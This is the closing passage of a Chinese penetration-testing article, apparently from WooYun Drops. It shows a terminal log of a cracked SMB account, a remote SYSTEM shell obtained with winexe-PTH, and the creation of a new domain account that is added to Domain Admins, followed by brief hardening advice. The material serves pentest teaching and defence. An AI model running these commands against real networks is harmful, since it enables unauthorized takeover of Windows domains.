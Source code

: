 ```
ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 (7 of 62, 6 complete) User: gollum (1 of 1, 0 complete) Password: gollum (1 of 1 complete) 
ACCOUNT FOUND: [smbnt] Host: 192.168.1.11 User: gollum Password: gollum [SUCCESS] 
…snip…

~/work/nmap# ~/SpiderLabs/winexe-PTH -U MIRKWOOD\\gollum%gollum --uninstall --system //192.168.1.106 cmd.exe
Microsoft Windows [Version 5.2.3790] 
(C) Copyright 1985-2003 Microsoft Corp. 

C:\ WINDOWS\system32>whoami 
whoami MIRKWOOD\gollum

C:\WINDOWS\system32>> net user twadmin $piD3rsRul3! /add /domain 
The request will be processed at a domain controller for domain MIRKWOOD.

The command completed successfully.

C:\WINDOWS\system32>net group "Domain Admins" twadmin /add /domain net group "Domain Admins" twadmin /add /domain 
The request will be processed at a domain controller for domain MIRKWOOD.

The command completed successfully. 
```

## 修补方法:[真心不希望管理员看到]

* * *

1.少用 XP/win2k 吧,否则为了某些兼容性,很少能全面禁止 Netbios and LLMNR Name Poisoning

2.从知名站点下载软件安装程序,更换软件自带的默认口令

3.勤劳打全系统补丁

4.做好账户审核

5.禁止空会话,关键服务器,做好 VLAN 划分

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Mimikatz ON Metasploit](http://drops.wooyun.org/tips/2443)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [下载文件的 15 种方法](http://drops.wooyun.org/tips/2420)
*   [DNS 泛解析与内容投毒，XSS 漏洞以及证书验证的那些事](http://drops.wooyun.org/tips/1354)
*   [Tor 隐身大法 —— 用 Tor 来帮助我们进行渗透测试](http://drops.wooyun.org/tips/1226)